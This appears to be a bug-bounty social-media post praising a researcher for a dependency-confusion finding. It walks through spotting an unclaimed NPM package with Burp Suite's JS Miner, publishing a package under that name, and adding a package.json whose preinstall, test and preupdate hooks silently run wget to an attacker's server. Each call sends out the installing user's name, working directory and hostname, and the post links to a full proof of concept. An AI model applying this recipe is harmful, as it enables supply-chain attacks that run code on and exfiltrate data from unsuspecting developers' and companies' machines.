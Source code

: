 ⚡Dependency Confusion via JS Miner

@GodfatherOrwa just landed a clean P1 by leveraging JS Miner in Burp Suite 🔥

Here’s how it went down 👇

🧩 After crawling all endpoints, he went to:
Target ➝ Extensions ➝ JS Miner ➝ Run All Passive Scans

💥 That’s when he spotted: [JS Miner] Dependency Confusion
The vulnerable package was unclaimed on NPM 👀

📦 Next steps he followed:

```
    npm login
    mkdir <package-name> && cd <package-name>
    npm init -y
    npm publish --access public

```

package.json

```
{
  "name": "====>Replace This wite The Package NAME",
  "version": "10.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" ",
    "preinstall": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" ",
    "preupdate": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" "
  },
  "author": "orwa",
  "license": "ISC"
  }
}
```

After claiming the package, he injected an RCE payload via package.json
🧪 Full POC: [https://github.com/orwagodfather/NPM-RCE](https://github.com/orwagodfather/NPM-RCE)

💣 Result? A solid P1 vulnerability and a perfect example of how effective Dependency Confusion still is.

Props to @GodfatherOrwa for consistently dropping fire techniques 🔥
